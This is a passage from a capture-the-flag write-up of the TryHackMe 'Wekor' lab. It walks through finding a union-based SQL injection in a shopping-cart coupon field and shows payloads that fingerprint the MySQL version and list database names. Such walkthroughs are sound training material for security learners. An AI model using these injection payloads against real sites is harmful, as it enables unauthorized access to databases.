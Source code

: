 - Found user: `admin`

I tried to bruteforce it, but no luck.

**In this WordPress page, I found a form that allows you to send a GET request to search posts via `s` parameter:**
```html
<aside class="widget-area">
		<section id="search-2" class="widget widget_search"><form role="search"  method="get" class="search-form" action="http://site.wekor.thm/wordpress/">
	<label for="search-form-1">Search&hellip;</label>
	<input type="search" id="search-form-1" class="search-field" value="" name="s" />
	<input type="submit" class="search-submit" value="Search" />
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a3.png)

However, I don't think it's vulnerable to SQL injection...

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a4.png)

Hmm... Let's go back to `wekor.thm/it-next/` page:

**By enumerating that page, I found the `/it-next/it_cart.php`'s "Apply Coupon" is vulnerable to SQL Injection!!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a5.png)

We can now try to confirm it's vulnerable to which type of SQL Injection:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a6.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a7.png)

**It's clear that it's vulnerable to Union-based SQL injection!!**

> Note: Since I'm practicing OSCP exam, I'll exploit it manually.

The first step of exploiting SQL injection is **determine which DBMS is the system using**:

**Let's try MySQL first!**
```sql
' UNION ALL SELECT NULL,NULL,version()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a8.png)

Found it! **It's using MySQL version 5.7.32-0ubuntu0.16.04.1!** 

Armed with this information, we can enumerate the database!

**Enumerate all database names:**
```sql
' UNION ALL SELECT NULL,NULL,schema_name FROM information_schema.schemata-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Wekor/images/a9.png)
